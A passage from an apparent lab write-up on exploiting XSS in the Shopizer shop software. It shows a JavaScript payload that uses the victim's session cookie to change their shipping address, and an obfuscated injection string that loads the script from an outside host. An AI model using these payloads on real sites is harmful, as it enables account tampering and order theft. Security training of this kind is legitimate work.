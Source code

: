 Under _My Account_ > _Billing & shipping information_ there is the option _Add new address_. This `POST` request includes the `customerId` parameter, but it appears to be optional (Figure 22).

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_11.png" alt=""><figcaption><p>Figure 22: Inspecting the <code>updateAddress</code> <code>POST</code> request.</p></figcaption></figure>

We can create a JavaScript payload that sends the above request using the target user's cookie, and therefore, changing their address to an address we control so we can redirect their orders.

{% code title="xssShopizerAddress.js" overflow="wrap" %}
```javascript
fetch('http://xss/shop/customer/updateAddress.html',{
    // setting the HTTP method
    method: 'POST',
    // the payload will be hosted on the same domain as the application
    // which allows the browser to send the JSESSIONID cookie since the
    // request won't be cross-origin
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    }, 
    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
  })
```
{% endcode %}

{% code overflow="wrap" %}
```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyQWRkcmVzcy5qcycp")))+'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_12.png" alt=""><figcaption><p>Figure 23: Testing our XSS attack.</p></figcaption></figure>
